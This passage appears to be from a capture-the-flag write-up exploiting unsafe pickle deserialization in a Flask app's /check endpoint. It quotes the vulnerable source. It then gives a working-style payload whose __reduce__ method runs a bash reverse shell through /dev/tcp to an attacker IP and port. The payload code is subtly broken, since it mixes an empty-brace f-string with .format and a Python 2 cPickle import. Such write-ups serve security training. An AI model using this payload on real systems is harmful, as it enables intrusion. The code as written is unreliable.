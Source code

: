 The `/check` method will **load pickle data** when we give it an id
```python
@app.route("/check", methods=["POST"])
def check():
    path = "/tmp/" + request.form["id"] + ".p"
    data = open(path, "rb").read()

    if "p1" in data:
        item = cPickle.loads(data)
    else:
        item = data

    return "Still reviewing: " + item

```

The `/submit` endpoint will **write user data into a file**. If this data is in `python2`'s `cPickle` format, we have **remote code execution** with the `/check` endpoint!
```python
@app.route("/submit", methods=["GET", "POST"])
def submit():
    error = None
    success = None

    if request.method == "POST":
        try:
            char = request.form["character"]
            quote = request.form["quote"]
            if not char or not quote:
                error = True
            elif not any(c.lower() in char.lower() for c in WHITELIST):
                error = True
            else:
                # TODO - Pickle into dictionary instead, `check` is ready
                p_id = md5(char + quote).hexdigest()
                outfile = open("/tmp/" + p_id + ".p", "wb")
                outfile.write(char + quote)
                outfile.close()
                success = True
        except Exception as ex:
            error = True

    return render_template("submit.html", error=error, success=success)
```
## Initial Foothold
### Python Deserialization
When we `/submit` a quote, the character and quote are `pickled` into a file. The `/check` endpoint will **load our pickle data** giving us code execution

By abusing the `__reduce__()` function we can create an object that triggers a reverse shell when deserialized/depickled
```python
import cPickle, os

# malicious obj to deserialize
ATTACKER_IP = '10.10.14.17'
PORT = 4444
cmd = f"/bin/bash -c '/bin/bash -i >& /dev/tcp/{}/{} 0>&1'".format(ATTACKER_IP, PORT)
class RCE(object):
	def __reduce__(self):
		return (os.system, (cmd,))

payload = cPickle.dumps(RCE())
```